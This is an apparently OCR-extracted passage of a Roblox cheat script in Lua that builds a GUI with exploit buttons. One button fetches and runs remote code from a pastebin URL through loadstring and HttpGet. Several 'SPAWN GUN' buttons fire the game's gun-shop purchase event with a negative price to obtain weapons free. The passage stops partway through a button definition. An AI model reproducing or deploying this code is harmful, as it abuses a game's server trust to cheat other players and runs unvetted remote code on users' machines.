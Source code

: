     local function animateLabels()
        for _, label in pairs(background:GetChildren()) do
            if label:IsA("TextLabel") then
                local tweenInfo = TweenInfo.new(0.5, Enum.EasingStyle.Quad, Enum.EasingDirection.Out, -1, true)
                local goal = { Position = UDim2.new(0.5, -150, label.Position.Y.Scale + 0.05, 0) }
                game:GetService("TweenService"):Create(label, tweenInfo, goal):Play()
            end
        end
    end

    animateLabels()

    wait(5)
    screenGui:Destroy()
end

createWelcomeGui()
  end,
})

local Button = MainTab:CreateButton({
   Name = " JERK [GSZ]",
   Callback = function()
loadstring(game:HttpGet("https://pastebin.com/raw/FWwdST5Y"))()
   end,
})

local DupeTab = Window:CreateTab("SPAWN GUN", nil) -- Title, Image
local Section = DupeTab:CreateSection("SPAWN GUN")

local Button = DupeTab:CreateButton({
   Name = "ALL CITY SP [1688]",
   Callback = function()
  local args = {
    [1] = "Silenced Pistol",
    [2] = -10
}

game:GetService("ReplicatedStorage").GunShop.Events.Purchase:FireServer("Silenced Pistol", -1)
   end,
})

local Button = DupeTab:CreateButton({
   Name = "ALL CITY Glock-17 [1688]",
   Callback = function()
  local args = {
    [1] = "Silenced Pistol",
    [2] = -10
}

game:GetService("ReplicatedStorage").GunShop.Events.Purchase:FireServer("Glock-17", -1)
   end,
})

local Button = DupeTab:CreateButton({
   Name = "ALL CITY Glock-19 [1688]",
   Callback = function()
  local args = {
    [1] = "Silenced Pistol",
    [2] = -10
}

